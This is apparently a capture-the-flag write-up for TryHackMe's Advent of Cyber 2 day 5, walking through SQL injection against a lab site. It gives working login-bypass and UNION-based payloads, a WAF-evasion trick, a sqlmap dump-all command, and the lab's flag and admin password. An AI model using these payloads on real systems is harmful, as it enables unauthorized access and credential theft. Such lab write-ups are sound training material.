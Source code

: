 # Advent of cyber 2 | day 5 | Someone stole Santa's gift list!

> Tal Baraz

-----

For me the ip for the machine was: `10.10.3.234` it'll probably be diffrent for you.

## Question 1
*Without using directory brute forcing, what's Santa's secret login panel?*

after hading to `http://10.10.3.234:8000/` (like the text about suggested) and not seeing anything potentially vulnerable
and after looking at the hint: *The name is derived out of 2 words from this question.*

So I tried:
- /secretpanel
- /secretlogin
- /loginpanel
- /santalogin
- /santasecret

and I finally got it right on:
- /santapanel

I've probably could have guest that the first time by just looking at the length of the answer.

## Question 2
*Visit Santa's secret login panel and bypass the login using SQLi*

No answer needed

We can assume the SQL query looks something like this:
```sql
SELECT username,password FROM users WHERE username='?' and password = '?'
```
The user input goes where there are `?`

I manged to bypass the login form with a simple SQLi: `' or 1=1 --`

So the sql query would look something like this
```sql
SELECT username,password FROM users WHERE username='' or 1=1 --' and password = ''
```
- Note: The challange suggest there's a WAF preventing spaces, but I didn't had this problem in my SQLi
However if they do change it in the future all you need to do is replace every space with a comment:
`' or 1=1 --` -> `'/**/or/**/1=1/**/--`.

## Question 3
*How many entries are there in the gift database?*

again with the same SQLi as before: `' or 1=1 --` I got all the enteries.

I could easily copy the table (Not inculding the headers) into a file i.e giftdb and use `wc` to count the number of lines, like a so:
```bash
cat giftdb | wc -l
```
and so the output is: `22`
- Note: don't forget to put a newline at the end of the last entrey, otherwise `wc` wouldn't count it as a line.

## Question 4
*What did Paul ask for?*

Because we have all the enteries, I just ran:
```bash
cat giftdb | grep -i paul 
``` 
and so the output is: `github ownership`

## Question 5
*What is the flag?*

- Note: I prefer to not use automated tools and so I will try to break in without `sqlmap`.

However I will provide you with the sqlmap command which will lead you to the flag and the admin's password
```bash
sqlmap -p search -r req --tamper=space2comment --dbms sqlite --batch --dump-all
```
- The `req` file is the request I captured with Burpsuite like they showed above. 
---
Moving on I first tried to see if there are really only 2 columns like we can see in the website:

First I Tried to assume how the query looks like:
```sql
SELECT gift,kid FROM table WHERE kid LIKE '?'
```

and so we can try 
```
' ORDER BY 1,2,3 --
```

and the query will look like this
```sql
SELECT gift,kid FROM table WHERE kid LIKE '' ORDER BY 1,2,3 --'
```
And I got a lovely error message telling me:
*3rd ORDER BY term out of range - should be between 1 and 2*
so I know there's only 2 columns.
after that using https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet this handy cheatsheet for sqlite sqli's

I entered:
```
@' UNION SELECT sql,1 FROM sqlite_master WHERE type='table' --
```

And so the query would look something like this:
```sql
SELECT gift,kid FROM table WHERE kid LIKE '@' UNION SELECT sql,1 FROM sqlite_master WHERE type='table' --'
```
- Note: the `@` is not necessary but for a cleaner output I put a charecter that is not in the gifts database.

And got this:

![Table names](./screenshots/table_names.png)

so we can see there are 3 tables:
- sequels: having a title, kid name, and age so we can understand that's the gift datebase on the website so nothing on intrest here.
- hidden_table: as we are looking for the flag the the table has 1 colunm for flag we can assume it's in there
- users: this might be useful for the sixth question when we are looking for the admin's password 

so with a simple sql query I could see the contents of hidden_table:
```
@' UNION SELECT flag,1 FROM hidden_table --
```

And so the query would something like this:
```
SELECT gift,kid FROM table WHERE kid LIKE '@' UNION SELECT flag,1 FROM hidden_table --'
```

![Flag](./screenshots/flag.png)

And so the flag is: `thmfox{All_I_Want_for_Christmas_Is_You}`

## Question 6
*What is admin's password?*

Same as before I will look at the `users` table, like a so:
```
@' UNION SELECT username,password FROM users --
```

And so the query would something like this:
```sql
SELECT gift,kid FROM table WHERE kid LIKE '@' UNION SELECT username,password FROM users --'
```
And I get just a single entry which is the admin's password:

![Admin password](./screenshots/admin_password.png)

And finaly the admin password is: `EhCNSWzzFP6sc7gB`
